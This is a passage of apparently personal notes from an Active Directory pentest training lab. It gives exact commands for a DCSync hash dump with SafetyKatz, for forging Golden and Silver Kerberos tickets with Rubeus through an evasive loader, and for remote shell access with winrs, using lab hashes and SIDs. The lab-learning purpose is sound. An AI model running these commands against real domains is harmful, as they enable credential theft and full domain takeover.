 - copy the krbtgt hash 
### Flag - NTLM hash of domain administrator - Administrator
- copy the Administrator  hash
- To get NTLM hash and AES keys of the krbtgt account, we can use the DCSync attack. Run the below command from process running as Domain Admin on the student VM:
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```
**Forging Golden Ticket using Rubeus**
- run this on new cmd session
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```
- Now, use the generated command to forge a Golden ticket
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154CB6624B1D859F7080A6615ADC488F09F92843879B3D914CBCB5A8C3CDA848 /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:34:22 AM" /minpassage:1 /logoncount:152 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

```
#to check if the ticket is imported or not
klist

winrs -r:dcorp-dc cmd
set username
set computername
```


---


# Learning Objective - 9

#### Flag - The service whose Silver Ticket can be used for winrs or PowerShell Remoting
**HTTP Service**
- copy the DCORP-DC$ hash from dcsync attack and run below cmd
```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-silver /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:70666506174c29e0ee3b230d9a20f7e5 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```
- to check if the ticket is imported or not
```
klist
```
- We have the HTTP service ticket for dcorp-dc, let's try accessing it using winrs. Note that we are using FQDN of dcorp-dc as that is what the service ticket has:
```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd
set username
set computername
```
